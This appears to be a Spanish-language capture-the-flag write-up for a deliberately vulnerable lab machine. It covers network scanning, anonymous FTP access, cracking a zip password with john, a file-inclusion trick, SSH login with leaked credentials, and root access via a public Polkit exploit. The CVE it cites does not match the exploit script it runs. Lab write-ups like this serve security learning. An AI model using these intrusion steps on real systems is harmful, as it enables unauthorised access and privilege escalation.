







Primero obtenemos nuestra dirección IP para asi realizar un escaneo en la red para identificar la maquina victima.
```
ifconfig
```

Una ves identificada nuestra IP procedemos a identificar maquinas conectadas en la misma red utilizando "netdiscover".
```
sudo netdiscover -r 192.168.0.0/24
```

Identificamos la maquina victima:
- 192.168.0.27    08:00:27:df:4d:41      1      60  PCS Systemtechnik GmbH
Procedemos a realizar un escaneo de puestos para identificar servicios y puertos expuestos, utilizando la herramienta " nmap ".
```
sudo nmap -sV -T5 192.168.0.27
```

Identificamos 3 puertos expuesto:
- 21/tcp ftp: vsftpd 3.0.3
- 22/tcp ssh: OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
- 80/tcp http: Apache httpd 2.4.41 ((Ubuntu))

No indica que los puertos abiertos es 21 que corre un servicio de ftp, 22 que corre un servicio ssh y el 80 que corre un sevico web http, por lo que procedemos a revisar la paguina web si es que contiene un sitio por el puerto 80.

Esto es lo que se visualiza en la paguina web:


Tenemos un texto que indica que ya ha sido hackeado pero lo interesante es que nos muestra dos nombres de usuarios que nos puede ayudar mas adelante:
- travisscott
- thugger

Realizamos una enumeración de directorio usando ***dirb***:
```
sudo dirb http://192.168.0.27/
```

Dandonos un resultado de **index.php , robots.txt, server-status**, el server-status nos da un código de estatus 403 pero viendo el peso quetiene vale la pena revisar.
```
+ http://192.168.0.27/index.php (CODE:200|SIZE:138)                              
+ http://192.168.0.27/robots.txt (CODE:200|SIZE:78)                           
+ http://192.168.0.27/server-status (CODE:403|SIZE:277) 
```

Accesediendo al http://192.168.0.27/server-status me muestra que no tengo permisos:


Accesediendo al http://192.168.0.27/robots.txt me muestra unas rutas que debemos revisar /dripisreal.txt y /etc/dripispowerful.html:


Al entrar a la ruta http://192.168.0.27/dripisreal.txt tenemos este mensaje:


Como el mensaje indica que hay que contar las palabras y juntarlas para hacer un md5 para obtener la contraseña, en el intento no pudimos resolver la contraseña y esto fue lo que nos mostro la paguina que nos indica:


Por lo que porcedemos a interntar algo más, como intentar entrar al ftp como anonymous:
```
ftp 192.168.0.27
Connected to 192.168.0.27.
220 (vsFTPd 3.0.3)
Name (192.168.0.27:hunter): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

Dentro encontraremos un archivo llamadoi respectmydrip.zip y utilizando la herramienta "zip2john" logramos crackear la contraseña que trae el zip:
```
zip2john respectmydrip.zip > hash.txt

cat hash.txt                
respectmydrip.zip/respectmydrip.txt:$pkzip$1*1*2*0*20*14*5c92f12b*0*2f*0*20*5c92*2678f9b06d95fb83a5b2029eac5970991997871b858a64a8ea2f30b929d2b33d*$/pkzip$:respectmydrip.txt:respectmydrip.zip::respectmydrip.zip

```

Utilizando el wordlist de rockyou.txt procedemos a crackear la contraseña:
- 072528035
```
john --wordlist=/home/hunter/Desktop/rockyou.txt hash.txt

Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
072528035        (respectmydrip.zip/respectmydrip.txt)     
1g 0:00:00:01 DONE (2024-11-23 23:33) 0.5847g/s 8144Kp/s 8144Kc/s 8144KC/s 072551..0713932315
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Al descomprimir respectmydrip.zip utilizando la contraseña posteriormente crackeada nos aroja otro zip llamado secret.zip y otro llamado respectmydrip.txt.

Revisando respectmydrip.txt:
- drip
```
cat respectmydrip.txt 
just focus on "drip"
```

Identificamos que drip tiene algo que ver por la información de concentrarnos en drip, aunque podria ser una distracción pero recordando que en la enumeración de directorios obtuvimos un index.php podemos intuir que "drip" puede agregarse como query en la url: 
- http://192.168.0.27/index.php?drip=/etc/dripispowerful.html
Mostrandonos esta paguina:


Donde nos da este mensaje con una contraseña:
- password is: imdrippinbiatch driftingblues is hacked again so it's now called drippingblues. :D hahaha  by  travisscott & thugger
- CONTRASEÑA: imdrippinbiatch

Ya tenemos una contraseña pero nos falta ver o saber el usuario, pero como tenemos 2 supuestos usuarios podemos intentar ingresar con alguno de ellos:
- travisscott
- thugger

Intentamos logearnos al ssh con "thugger" y "imdrippinbiatch", y oudimos entrar:
```
ssh thugger@192.168.0.27
```

Dentro procedemos a verificar en que directorio nos encontramos:
```
pwd
/home/thugger
```

Realizamos un ls:
```
ls -al
total 64
drwxr-xr-x 14 thugger thugger 4096 Eyl 19  2021 .
drwxr-xr-x  3 root    root    4096 Eyl 18  2021 ..
-rw-------  1 thugger thugger    8 Eyl 19  2021 .bash_history
drwxr-xr-x 10 thugger thugger 4096 Eyl 19  2021 .cache
drwxr-xr-x 11 thugger thugger 4096 Eyl 19  2021 .config
drwxr-xr-x  2 thugger thugger 4096 Eyl 18  2021 Desktop
drwxr-xr-x  2 thugger thugger 4096 Eyl 18  2021 Documents
drwxr-xr-x  2 thugger thugger 4096 Eyl 18  2021 Downloads
drwxr-xr-x  3 thugger thugger 4096 Eyl 19  2021 .local
drwxr-xr-x  2 thugger thugger 4096 Eyl 18  2021 Music
drwxr-xr-x  2 thugger thugger 4096 Eyl 18  2021 Pictures
drwxr-xr-x  2 thugger thugger 4096 Eyl 18  2021 Public
drwx------  2 thugger thugger 4096 Eyl 19  2021 .ssh
drwxr-xr-x  2 thugger thugger 4096 Eyl 18  2021 Templates
-r-x------  1 thugger thugger   32 Eyl 19  2021 user.txt
drwxr-xr-x  2 thugger thugger 4096 Eyl 18  2021 Videos
```

Y encontramos la flag del usuario "user.txt":
```
cat user.txt 
5C50FC503A2ABE93B4C5EE3425496521
```

Realizamos una busqueda de permisos especiales "set user ID" aprovechando que los archivos se pueden ejecutar con permisos del propietario y no con el permiso de quien lo ejecuta, por lo que procedemos a buscar con el comando:
```
find / -perm -u=s -type f 2>/dev/null
```

Nos muestra una gran lista pero revisamos un archivo en especial:
- /usr/bin/pkexec
```
/snap/snapd/12883/usr/lib/snapd/snap-confine
/snap/snapd/7264/usr/lib/snapd/snap-confine
/snap/core18/1705/bin/mount
/snap/core18/1705/bin/ping
/snap/core18/1705/bin/su
/snap/core18/1705/bin/umount
/snap/core18/1705/usr/bin/chfn
/snap/core18/1705/usr/bin/chsh
/snap/core18/1705/usr/bin/gpasswd
/snap/core18/1705/usr/bin/newgrp
/snap/core18/1705/usr/bin/passwd
/snap/core18/1705/usr/bin/sudo
/snap/core18/1705/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/1705/usr/lib/openssh/ssh-keysign
/snap/core18/2128/bin/mount
/snap/core18/2128/bin/ping
/snap/core18/2128/bin/su
/snap/core18/2128/bin/umount
/snap/core18/2128/usr/bin/chfn
/snap/core18/2128/usr/bin/chsh
/snap/core18/2128/usr/bin/gpasswd
/snap/core18/2128/usr/bin/newgrp
/snap/core18/2128/usr/bin/passwd
/snap/core18/2128/usr/bin/sudo
/snap/core18/2128/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/2128/usr/lib/openssh/ssh-keysign
/usr/sbin/pppd
/usr/bin/pkexec
/usr/bin/su
/usr/bin/sudo
/usr/bin/umount
/usr/bin/vmware-user-suid-wrapper
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/fusermount
/usr/bin/newgrp
/usr/bin/mount
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/xorg/Xorg.wrap
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
```

Esta herramienta "pkexec" de "polkit", es una herramienta setuid diseñada para ermitir que los usuarios sin privilegios ejecuten comandos como usuarios privilegiados, revisar el **CVE-2021-4034** en https://nvd.nist.gov/vuln/detail/cve-2021-4034.

Buscando en internet nos encontramos con este exploit para explotar esta vulnerabilidad https://github.com/Almorabea/Polkit-exploit/blob/main/CVE-2021-3560.py

Verificamos nuestro usuario:
```
id
uid=1001(thugger) gid=1001(thugger) groups=1001(thugger)
```

No nos dejo descargar el exploit por curl y por wget por lo que creamos un archivo y pegamos el código usando "nano":
```
touch CVE-2021-3560.py
```

```
nano CVE-2021-3560.py
```

Y ejecutamos el script:
```
python3 CVE-2021-3560.py
```


Vemos que funciono:
```
id
uid=0(root) gid=0(root) groups=0(root)
```

Y ya podemos ver la flag del root:
```
cat /root/root.txt
```

FLAG: 78CE377EF7F10FF0EDCA63DD60EE63B8
